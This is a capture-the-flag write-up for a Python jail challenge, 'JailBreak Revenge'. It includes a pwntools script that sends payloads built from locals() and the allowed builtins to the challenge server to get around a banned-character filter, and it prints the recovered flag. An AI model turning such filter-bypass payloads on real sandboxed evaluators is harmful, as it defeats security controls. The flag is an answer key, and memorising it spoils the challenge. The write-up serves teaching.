

# misc/JailBreak Revenge

<p align = "center"></p>

<details> 
  <summary><b>Hint 1</b></summary>
   What in python is evaluated to a number?
</details>

This is the last of three PyJail challenges in this CTF. For all three challenges, the flag is initialized as a local variable.

```python
flag = open('flag.txt').read().strip()
```

For this challenge, it is similar to JailBreak 2.

Before our message is evaluated, we would need to bypass the banned character list as shown below:

```python
BANNED_CHARS = "gdvxfiyundmpnetkb/\\'\"~`!@#$%^&*.{},:;=0123456789#-_|? \t\n\r\x0b\x0c"
```

Woah, such a lengthy ban list! And they even banned characters with ASCII value of more than 120!

That doesn't stop me though. We notice that there are only 4 built-in functions that are not blacklisted:

```python
['all', 'chr', 'hash', 'locals']
```

Oh, `locals()` is allowed again? Let us pull the same trick as JailBreak 2, but since comma is no longer allowed, we convert the tuple into a list, and concatenate via `+` operator.

```python
from pwn import *

BANNED_CHARS = "gdvxfiyundmpnetkb/\\'\"~`!@#$%^&*.{},:;=0123456789#-_|? \t\n\r\x0b\x0c"

payload = '[locals()]'
allowed_functions = [key for key in __builtins__.__dict__.keys() if not any([i for i in BANNED_CHARS if i in key.lower()])] 

i = 1
while True:
    payload += f'+[{allowed_functions[0]}]'
    final_payload = payload.encode()

    p = remote("challs.bcactf.com", 30223)

    p.recvuntil(b"message:")
    p.sendline(final_payload)
    received = b""
    while b"Deleted!" not in received and b"flag" not in received:
        received += p.recv(4096)
    if b"flag" in received:
        print(received)
        break

    p.close()

    i += 1
```

We then obtain the flag as such:

```
bcactf{Wr1tING_pyJaiL5_iS_hArD_f56450aadefcc}
```
